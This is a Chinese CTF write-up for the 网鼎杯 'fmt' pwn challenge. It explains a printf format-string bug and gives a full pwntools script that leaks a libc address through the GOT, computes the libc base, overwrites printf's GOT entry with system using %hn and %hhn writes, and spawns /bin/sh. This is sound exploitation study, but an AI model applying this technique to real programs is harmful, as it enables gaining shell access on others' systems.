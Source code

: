 ```yaml
---
title: 网鼎杯第二场Fmt
date: 2018-08-22 08:37:40
tags: [CTF, PWN]
categories: 网鼎杯
---
```

## 网鼎杯 第二场 fmt  
​	学弟扔了网鼎杯的一道pwn给我，看了下发现是格式化字符串，恰巧昨天刚刚做了一道stack_check_fail劫持的格式化字符串题，今天又做格式化可以说还是比较轻松的。 
	<!--more-->
拿到题目一看发现是个中规中矩的格式化题目，有循环，供用户输入的缓冲区范围也比较大，漏洞就是直接printf字符串变量。  
	大致看了一下，先找到利用思路，可以通过泄露got表地址找到libc库，然后重新执行程序，第一次输入泄露libc函数地址，计算libc载入基地址，之后直接在栈上构造数据覆写printf的got表为system，因为参数保存在栈上，直接输入/bin/sh就能getshell了。  
	说轻松是很轻松，但那是整个解题思路，实际上在写脚本和调试的时候还是遇到不少坑的，比如说hhn和hn以及n的职能一开始没有分清导致调试的时候遇到不少坑，这里hhn是往目标地址写入一个字节，hn是两个，n是四字节，lln是八字节，可以按情况对数据进行字节拆分后写入目标地址空间。了解了以后做就很简单了。

```
from pwn import *
p=process('./pwn')
gdb.attach(p,'''
	break *0x080485BB
	break *0x080485ca
	continue
''')
elf=ELF('./pwn')
libc=ELF('./libc.so.6')
p.recvuntil('Do you know repeater?\n')
p.sendline(p32(elf.got['read']))
p.sendline('%6$s')
read_address=int((p.recv(12)[5:9][::-1]).encode('hex'),16)
log.info('read_address > '+hex(read_address))
libc_base=read_address-libc.symbols['read']
log.info('libc_base > '+hex(libc_base))
system_address=libc_base+libc.symbols['system']
log.info('system > '+hex(system_address))
payload=p32(elf.got['printf'])+p32(elf.got['printf']+2)
len1=(system_address & 0xffff)
len2=((system_address >> 16) &0xff)
#len3=(system_address>>16)&0xff
#print hex(len2)+' is len2'
payload+='%'+str(len1-8) + 'x%6$hn'
payload+='%'+str(len2) + 'x%7$hhn'
#payload+='%'+str(len3) + 'x%8$hn'
#print payload
#p.sendline('%01x%6$hhn'+'%1x%7$hhn'+'%2x%8$hhn')
p.send(payload)
p.sendline('/bin/sh')
p.interactive()

```

